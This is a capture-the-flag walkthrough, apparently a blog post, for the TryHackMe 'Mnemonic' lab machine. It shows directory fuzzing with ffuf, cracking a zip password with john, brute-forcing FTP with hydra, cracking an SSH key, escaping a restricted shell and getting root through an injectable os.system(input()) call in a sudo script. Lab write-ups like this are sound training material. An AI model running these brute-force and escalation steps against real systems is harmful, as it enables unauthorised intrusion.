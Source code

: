 ```yaml
---
layout: post
title: Mnemonic
date: 2020-12-19 00:00:01 +5:30
categories: [TryHackMe, Medium]
tags: [osint, dirbust, code-analysis] # add tag
image: /assets/img/mnemonic/mnem.png
---
```


## Description

The Following Post is writeup of mnemonic room of tryhackme <https://tryhackme.com/room/mnemonic>

|Machine|Detail
|:---|:--
|OS | Linux
|Rating | Medium
|Creator | [villwocki](https://tryhackme.com/p/villwocki)

## Summary

This room has 3 ports open 21, 80 and 1337. On dirbusting port 80 we will get user backups which contains info about ftp. Bruteforcing it will get us into ftp and there we will get id_rsa of one user.
Logging as that user in ssh at port 1337 get into rbash shell which can be bypassed and we can read dir of another user. We got some strange files in user home dir and the other dir leads to an image.
OSINT with the room name leads us to a github repo which have a decoder with that we can decode the image and get password for other user. There is a code which we can use as sudo but it has one weakness using which we can execute commands as root so got root.

## Walkthrough

### Enumeration

Starting with nmap scan.
```bash
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
| http-robots.txt: 1 disallowed entry
|_/webmasters/*
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1337/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e0:42:c0:a5:7d:42:6f:00:22:f8:c7:54:aa:35:b9:dc (RSA)
|   256 23:eb:a9:9b:45:26:9c:a2:13:ab:c1:ce:07:2b:98:e0 (ECDSA)
|_  256 35:8f:cb:e2:0d:11:2c:0b:63:f2:bc:a0:34:f3:dc:49 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

So 1337 have ssh server running.

#### Port80

![port80](/assets/img/mnemonic/port80.png)

![robots](/assets/img/mnemonic/robotstxt.png)

so we have robots.txt it directs us to webmasters.
For moving forward we have a way we can fuzz dir further

```bash
root@kali  ~/Desktop/tryhackme/mnemonic  ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.148.195/webmasters/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.0.2
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.148.195/webmasters/FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
admin                   [Status: 301, Size: 325, Words: 20, Lines: 10]
backups                 [Status: 301, Size: 327, Words: 20, Lines: 10]

So let's enum more.

 root@kali  ~/Desktop/tryhackme/mnemonic  ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.148.195/webmasters/backups/FUZZ.zip

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.0.2
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.148.195/webmasters/backups/FUZZ.zip
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
<redacted>                [Status: 200, Size: 408, Words: 1, Lines: 9]
```

Okay i assumed  as zip. so we can download the zip and see what we can find inside it.

### Exploitation

Ahh the zip seems encrypted.
So john have script which converts zip to john hash format and john can crack that.

```bash
root@kali  ~/Desktop/tryhackme/mnemonic  john --wordlist=/usr/share/wordlists/rockyou.txt john.hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<redacted>         (backups.zip/backups/note.txt)
1g 0:00:00:02 DONE (2020-12-19 16:02) 0.4115g/s 5872Kp/s 5872Kc/s 5872KC/s 0050cent..0012093760
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

In zip we can see user info and get username.
Now Bruteforce the ftp pass.

```bash
root@kali  ~/Desktop/tryhackme/mnemonic/backups  hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt ftp://10.10.148.195
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-12-19 16:20:23
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.148.195:21/
[STATUS] 241.00 tries/min, 241 tries in 00:01h, 14344158 to do in 991:60h, 16 active
[STATUS] 245.33 tries/min, 736 tries in 00:03h, 14343663 to do in 974:27h, 16 active
[21][ftp] host: 10.10.148.195   login: ftpuser   password: <redacted>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-28 16:24:53
```

250 Directory successfully changed.
ftp> cd data-4
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    4 0        0            4096 Jul 14 18:05 .
drwx------   12 1003     1003         4096 Jul 14 18:22 ..
drwxr-xr-x    2 0        0            4096 Jul 14 18:04 3
drwxr-xr-x    2 0        0            4096 Jul 14 18:04 4
-rwxr-xr-x    1 1001     1001         1766 Jul 13 20:34 id_rsa
-rwxr-xr-x    1 1000     1000           31 Jul 13 21:18 not.txt

Okay the ftp gave us id_rsa and a not.txt
The ssh key have pass phrase let's crack it
Using ssh2john => hash => hash crack

Got user login.

>But there is a script running as root which will kick us out and we have rbash

Alright i saw a weird 6450.txt file(let's note it we can use it later)
I was Stuck a bit here:
  Got idea to check for mnemonic decryption ans landed on <https://github.com/MustafaTanguner/Mnemonic/>
  So it's indeed right path but i need a image.
  I checked what i can do escape the rbash?

Todo: Escape Rbash and defeat the script
 <https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/>
I checked and we can bypass rbash using vi.

so after that we can check other dir let's check condor we have access to it.

```bash
james@mnemonic:/home$ ls -la condor
ls: cannot access 'condor/..': Permission denied
ls: cannot access 'condor/'\''<redacted>=='\''': Permission denied
ls: cannot access 'condor/.gnupg': Permission denied
ls: cannot access 'condor/.bash_logout': Permission denied
ls: cannot access 'condor/.bashrc': Permission denied
ls: cannot access 'condor/.profile': Permission denied
ls: cannot access 'condor/.cache': Permission denied
ls: cannot access 'condor/.bash_history': Permission denied
ls: cannot access 'condor/.': Permission denied
ls: cannot access 'condor/<redacted>==': Permission denied
total 0
d????????? ? ? ? ?            ?  .
d????????? ? ? ? ?            ?  ..
d????????? ? ? ? ?            ? '<redacted>'
l????????? ? ? ? ?            ?  .bash_history
-????????? ? ? ? ?            ?  .bash_logout
-????????? ? ? ? ?            ?  .bashrc
d????????? ? ? ? ?            ?  .cache
d????????? ? ? ? ?            ?  .gnupg
-????????? ? ? ? ?            ?  .profile
d????????? ? ? ? ?            ? ''\''<redacted>=='\'''
```

Alright base64 and we got flag and image url.

mnemonic + image + (Some config file... Hmmmm)
okay remember we got a 6450.txt yess.

![mnemonic](/assets/img/mnemonic/condorpass.png)

Hurray got user condor.

```bash
condor@mnemonic:~$ sudo -l
Matching Defaults entries for condor on mnemonic:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User condor may run the following commands on mnemonic:
    (ALL : ALL) /usr/bin/python3 /bin/examplecode.py
 ```

 Looking into source code examplecode.py there is a function where we can put input.
yes in option 0
 >os.system(input(Running...))

```bash
 Select:0
are you sure you want to quit ? yes : .

Running....bash

root@mnemonic:/root# id
uid=0(root) gid=0(root) groups=0(root)
```

I was stuck in root for few hours and doing something totally different.
